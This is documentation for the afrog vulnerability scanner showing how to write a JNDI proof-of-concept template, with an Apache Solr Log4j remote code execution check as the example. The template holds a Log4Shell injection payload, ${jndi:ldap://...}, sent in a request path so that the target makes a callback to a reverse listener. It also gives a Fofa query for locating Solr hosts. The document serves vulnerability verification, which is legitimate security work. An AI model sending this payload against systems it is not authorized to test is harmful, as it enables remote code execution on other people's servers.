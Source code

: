 # JNDI Demo

To perform JNDI POC validation, please configure the JNDI module in the afrog-config.yaml file. [Click here](/guide/reverse.html#jndi-configuration) to configure it.

## Solr Log4j RCE
Below is a brief explanation of how to use JNDI in afrog, using "solr-log4j-rce" as an example.

```yaml
id: solr-log4j-rce

info:
  name: Apache Solr Log4j Remote Code Execution
  author: zan8in
  severity: critical
  verified: true
  description: |
    Fofa: app="APACHE-Solr"
  created: 2023/06/09

set:
  reverse: newJNDI()
  jndiURL: reverse.url.host + reverse.url.path
rules:
  r0:
    request:
      method: GET
      path: /solr/admin/collections?action=${jndi:ldap://{{jndiURL}}}&wt=json
    expression: reverse.jndi(5)
expression: r0()
```

To set the reverse link variables, please use the following fixed variable names: `reverse` represents `newJNDI()`, and `jndiURL` represents `reverse.url.host + reverse.url.path`. Although you have the flexibility to change variable names, it is recommended by the official guidelines to maintain a consistent naming convention.

- `reverse` is initialized using `newJNDI()` to establish a JNDI connection for vulnerability verification.
- `jndiURL` is used for JNDI Payload.
- `reverse.jndi(5)` indicates that the JNDI vulnerability will be verified after 5 seconds.
